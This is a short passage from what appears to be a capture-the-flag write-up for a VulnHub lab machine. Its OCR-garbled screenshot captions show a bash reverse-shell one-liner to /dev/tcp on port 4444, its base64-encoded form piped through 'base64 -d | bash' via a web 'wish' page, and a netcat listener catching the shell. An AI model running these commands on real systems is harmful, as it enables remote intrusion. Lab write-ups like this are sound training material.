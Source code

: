 <img src="diginn/media/image9.png" style="width:4.29167in;height:3.95in" alt="sh •i /dev/tcp/192.168.43.2e8/4444 0&gt;81 Output c2ggLwkgPiYgL2R1di9eY3AvNTkyLjE20C4ØMy4yYDgvNDQeNCAwpiYx " />

<p>echo "payload" | base64 -d | bash</p>

<img src="diginn/media/image10.png" style="width:4.40833in;height:2.40833in" alt="O a 192.168.43.219:7331/wish Google Hacking DB Vigenere Solver - ww... LxdPrivi1ege Escalari.- Oh you found me then go on make a wish. This can make all your wishes come true Execute: •ONCAwPiYxlbase64-dlbash " />

<img src="diginn/media/image11.png" style="width:5.975in;height:2.225in" alt="H kali@ kali —/Desktop/ctf/vu1nhub/dijinnJ nc -nvlp 4444 listening on [any] 4444 connect to [192.168.43.208] from (UNKNOWN) [192.168.43.219] 49096 sh: O: can&#39;t access tty; job control turned off $ $ $ id " />
